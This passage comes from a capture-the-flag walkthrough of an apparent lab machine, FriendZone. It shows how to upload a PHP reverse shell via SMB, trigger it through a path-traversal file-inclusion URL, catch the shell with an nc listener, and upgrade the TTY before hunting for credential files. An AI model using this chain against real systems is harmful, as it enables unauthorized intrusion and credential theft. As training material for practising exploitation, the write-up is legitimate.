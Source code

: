 If I add the included paramater to the link then I are greeted with yet another message that tells us the parameter is wrong witch hints that I need to use an LFI

![parameter.png](../../resources/b1250ca8039847019f214f59b1d1f0bd.png)

So for the LFI I are going to upload the reverse shell to the <b>Development</b> share since I have Read/Write privileges to it.

```
# smbclient -U none //10.10.10.123/Development password
Try "help" to get a list of possible commands.
smb: \> put php-reverse-shell.php
putting file php-reverse-shell.php as \php-reverse-shell.php (30.8 kb/s) (average 30.8 kb/s)
```
Now I set up our <b>nc</b> listener on the port I specified in our shell
```
# nc -lvnp 10000
listening on [any] 10000 ...
```
Took me some time to find where the Development folder is stored but after some time I found it. To trigger the LFI navigate to <b>https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../..//etc/Development/php-reverse-shell</b>. Just make sure you put in the name of your shell and not mine. If you did everything correctly you should get a shell.
```
# nc -lvnp 10000
listening on [any] 10000 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.123] 46614
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 21:39:24 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
This next step is not necessary but I did it just to give myself a more responsive shell
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@FriendZone:/$ ^Z
[1]+  Stopped                 nc -lvnp 10000
# stty raw -echo; fg
nc -lvnp 10000

www-data@FriendZone:/$
```
Now I have a shell with tab complete. At this point you can go to <b>/home/friend/</b> and read the <b>user.txt</b> file. I do some basic enumeration and eventually find a <b>mysql_data.conf</b> in <b>/var/www</b>.